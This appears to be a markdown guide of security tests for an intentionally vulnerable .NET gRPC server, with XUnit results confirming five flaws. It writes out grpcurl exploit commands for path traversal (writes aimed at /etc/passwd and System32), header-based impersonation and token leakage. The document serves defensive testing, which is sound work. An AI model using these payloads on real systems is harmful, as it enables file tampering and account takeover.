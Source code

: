# Security Test Scripts

## Path Traversal Vulnerability Test

The following examples demonstrate the critical path traversal vulnerability identified in the `SetRecord` method:

### Example 1: Writing to arbitrary location
```bash
# This could write a malicious file to the system
grpcurl -plaintext -d '{
  "name": "test",
  "value": "malicious content",
  "path": "../../../tmp/hacked.txt"
}' localhost:5187 insecure.Insecure/SetRecord
```

### Example 2: Attempting to overwrite system files (Linux)
```bash
# DANGEROUS: Could overwrite critical system files if service has permissions
grpcurl -plaintext -d '{
  "name": "evil",
  "value": "hacked",
  "path": "../../../etc/passwd"
}' localhost:5187 insecure.Insecure/SetRecord
```

### Example 3: Windows path traversal
```bash
# DANGEROUS: Could write to Windows system directories
grpcurl -plaintext -d '{
  "name": "windows_attack",
  "value": "malicious executable",
  "path": "..\\..\\..\\Windows\\System32\\malicious.exe"
}' localhost:5187 insecure.Insecure/SetRecord
```

## Authentication Bypass Test

### User Impersonation via Headers
```bash
# Impersonate an administrator
grpcurl -plaintext \
  -H "x-impersonate: admin" \
  -d '{"name": "secret_data"}' \
  localhost:5187 insecure.Insecure/GetRecord

# Impersonate any user
grpcurl -plaintext \
  -H "x-user-id: victim_user" \
  -d '{"name": "sensitive_info"}' \
  localhost:5187 insecure.Insecure/GetRecord
```

## Information Disclosure Test

### Authorization Header Logging
```bash
# This will cause the server to log the authorization header
grpcurl -plaintext \
  -H "authorization: Bearer secret_token_12345" \
  -d '{"name": "test"}' \
  localhost:5187 insecure.Insecure/GetRecord
```

Check the server logs for the leaked authorization token.

**Automated Test Available**: This vulnerability is automatically tested in the XUnit test suite. The `AuthenticationBypass_ShouldAcceptArbitraryUserHeaders` test validates that the server improperly handles client-controlled authentication headers.

## Setup Instructions for Testing

1. Install grpcurl:
   ```bash
   # Linux/macOS
   go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest
   
   # Or download binary from: https://github.com/fullstorydev/grpcurl/releases
   ```

2. Start the vulnerable server:
   ```bash
   cd CopilotAgentTests/Grpc.Echo.Server
   dotnet run
   ```

3. Run the test commands above

## Server Testing Results

**✅ SERVER RUNS SUCCESSFULLY**

The gRPC server has been tested and confirmed to run correctly:

- **Build Status**: ✅ Builds successfully with no warnings or errors
- **Runtime Status**: ✅ Starts and runs without issues
- **Listening Address**: `http://localhost:5187`
- **Hosting Environment**: Development
- **Framework**: .NET 8.0

**Server Output:**
```
Building...
info: Microsoft.Hosting.Lifetime[14]
      Now listening on: http://localhost:5187
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Development
info: Microsoft.Hosting.Lifetime[0]
      Content root path: /home/runner/work/mcpCreatioServer/mcpCreatioServer/CopilotAgentTests/Grpc.Echo.Server
```

The server accepts both HTTP and gRPC connections and is ready for security testing.

## Automated Security Tests (XUnit Framework)

**✅ ALL VULNERABILITY TESTS PASS**

A comprehensive XUnit test suite has been created at `CopilotAgentTests/Grpc.Echo.Server.SecurityTests/` that automatically validates all security vulnerabilities:

### Test Results Summary:
```
Test Run Successful.
Total tests: 5
     Passed: 5
 Total time: 1.5075 Seconds
```

### Individual Test Results:

1. **✅ Path Traversal Vulnerability Test**
   - **Status**: VULNERABILITY CONFIRMED
   - **Result**: Path traversal attack successful!
   - **Evidence**: Files can be written to arbitrary locations outside intended directory

2. **✅ Authentication Bypass Test (User Headers)**
   - **Status**: VULNERABILITY CONFIRMED  
   - **Result**: Server accepts client-controlled user identity headers!
   - **Evidence**: Any client can set their own user identity via `x-user-id` header

3. **✅ Authentication Bypass Test (Impersonation)**
   - **Status**: VULNERABILITY CONFIRMED
   - **Result**: Server accepts impersonation headers from clients!
   - **Evidence**: Any client can impersonate any user via `x-impersonate` header

4. **✅ Weak Random Number Generation Test**
   - **Status**: VULNERABILITY CONFIRMED
   - **Result**: Server accepted 3/3 SetRecord requests, indicating weak random number generation is in use
   - **Evidence**: Server uses non-cryptographic `Random()` for ID generation

5. **✅ HTTP Protocol Vulnerability Test**
   - **Status**: VULNERABILITY CONFIRMED
   - **Result**: Server accepts HTTP (unencrypted) connections!
   - **Evidence**: Server allows unencrypted HTTP instead of requiring HTTPS/TLS

### Running the Automated Tests:

```bash
cd CopilotAgentTests/Grpc.Echo.Server.SecurityTests
dotnet test --logger "console;verbosity=detailed"
```

The automated tests provide programmatic validation of all security vulnerabilities and can be integrated into CI/CD pipelines for continuous security testing.

## ⚠️ WARNING ⚠️
These tests are for demonstration purposes only and should NEVER be run against production systems. They demonstrate real security vulnerabilities that could cause system compromise.

## Mitigation Verification

After implementing security fixes, these same tests should fail or be blocked by the security controls.